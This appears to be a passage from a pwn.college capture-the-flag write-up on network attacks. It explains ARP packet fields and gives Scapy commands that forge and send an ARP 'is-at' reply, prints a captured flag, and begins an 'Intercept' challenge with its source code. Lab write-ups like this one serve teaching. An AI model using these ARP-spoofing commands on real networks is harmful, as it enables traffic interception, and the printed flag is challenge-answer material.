 The packet fields represent the following:
- `hwsrc`: Source hardware address. This will be updated in the target's ARP table.
- `psrc`: The IP to be added in the target's ARP table.
- `hwdst`: Destination hardware address.
- `pdst`: Destination where the ARP packet must go.

```py
>>> (Ether(src="9e:52:48:85:ba:b6", dst="ff:ff:ff:ff:ff:ff") / ARP(op="is-at", hwsrc="42:42:42:42:42:42", psrc="10.0.0.42", hwdst="ff:ff:ff:ff:ff:ff", pdst="10.0.0.2")).display()
###[ Ethernet ]###
  dst       = ff:ff:ff:ff:ff:ff
  src       = 9e:52:48:85:ba:b6
  type      = ARP
###[ ARP ]###
     hwtype    = Ethernet (10Mb)
     ptype     = IPv4
     hwlen     = None
     plen      = None
     op        = is-at
     hwsrc     = 42:42:42:42:42:42
     psrc      = 10.0.0.42
     hwdst     = ff:ff:ff:ff:ff:ff
     pdst      = 10.0.0.2
```

```py
>>> sendp(Ether(src="9e:52:48:85:ba:b6", dst="ff:ff:ff:ff:ff:ff") / ARP(op="is-at", hwsrc="42:42:42:42:42:42", psrc="10.0.0.42", hwdst="ff:ff:ff:ff:ff:ff", pdst="10.0.0.2"), iface="eth0")
.
Sent 1 packets.
pwn.college{wP575ocvtjd1WArdmPDG-QiQlAy.dBzNzMDL4ITM0EzW}
```

&nbsp;

## Intercept

> Intercept traffic from a remote host. The remote host at `10.0.0.2` is communicating with the remote host at `10.0.0.3` on port `31337`.

### Source code
```py title="/challenge/run" showLineNumbers
#!/usr/bin/exec-suid --real -- /usr/bin/python -I

import os
import socket
import time

import psutil
from dojjail import Host, Network

flag = open("/flag").read()
parent_process = psutil.Process(os.getppid())

class ClientHost(Host):
    def entrypoint(self):
        while True:
            time.sleep(1)
            try:
                client_socket = socket.socket()
                client_socket.connect(("10.0.0.3", 31337))
                client_socket.sendall(flag.encode())
                client_socket.close()
            except (OSError, ConnectionError, TimeoutError):
                continue
```